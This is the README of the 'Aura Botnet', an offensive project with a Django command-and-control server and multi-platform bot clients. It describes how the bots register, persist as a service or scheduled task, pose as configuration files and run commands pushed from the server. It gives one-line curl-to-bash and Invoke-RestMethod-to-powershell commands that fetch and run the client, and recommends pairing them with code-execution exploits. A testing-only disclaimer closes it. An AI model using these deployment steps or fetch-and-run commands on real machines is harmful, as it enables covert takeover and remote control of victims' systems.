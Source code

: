 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the [`aura-server`](aura-server)
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in [`aura-server/aura/settings.py`](aura-server/aura/settings.py).
You may wish to use MySQL, or even PostgreSQL instead; this easy to do thanks
to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell,
but are may lack certain functionality as they are mostly unsupported. I will fix
any major bugs that come to my attention, but they will continue to lack certain
features for the time being, such as running commands in different shells.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

You can choose whichever client you feel is most appropriate for the platform
and use case, although specified above, the C++ client is the first priority
when it comes to features and stability.

### C++ Client
There are three header-only projects being used for this client. Thanks to the
following projects for their awesome work:
* [okdshin/PicoSHA2](https://github.com/okdshin/PicoSHA2/) -
A header-file-only, SHA256 hash generator in C++
* [Tencent/rapidjson](https://github.com/Tencent/rapidjson/) -
A fast JSON parser/generator for C++ with both SAX/DOM style API
* [catchorg/Catch2](https://github.com/catchorg/Catch2/) -
A modern, C++-native, header-only, test framework for unit-tests, TDD and BDD

If the repo was not cloned with the `--recursive` flag, pull the mentioned
dependencies by running:
```
git submodule update --init --recursive
```

For the Linux C++ client, you will also need *libcurl* installed with
development files. There may be a *libcurl-devel* or *libcurl-dev* package on
your distro that you need to install.

Afterward, change into the source directory ([`aura-client`](aura-client)).
Then build by running:
```
cmake .    # Run with "-DBUILD_TESTING=ON" to build tests
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

Catch2 unit tests can be found under [`aura-client/tests/`](aura-client/tests/).

### Rust Client
For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory ([`alt-clients/rust/rust-linux`](alt-clients/rust/rust-linux) or
[`alt-clients/rust/rust-windows`](alt-clients/rust/rust-windows) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

### Powershell and Bash
The Powershell and Bash clients simply need to be executed on the target
machine.

Configuring Commands
---
These can easily be managed through the Django admin site or shell. The
client periodically communicates with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands are
received as a JSON object specifying the shell to run the command in, and
the command to execute.

Commands can be set to run for specific bot groups defined by operating
system and user privilege.  This is specified in
[`aura-server/groups.json`](aura-server/groups.json).
The only reserved group numbers are `-1`, for priority commands that are
run by all bots, and `-2`, for default commands that are run by all bots
only if there is no other command to run; you can also assign commands to
individual bots using the hash of their seed.

Each command can be given a start time and end time. Oneshot commands will
only run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
* Support for sending file dependencies for commands through JSON
* Add significantly more unit tests

<h2>This repo is for testing/demonstration purposes only. This is not meant to
be implemented in any real world applications except for testing on authorized
machines.</h2>
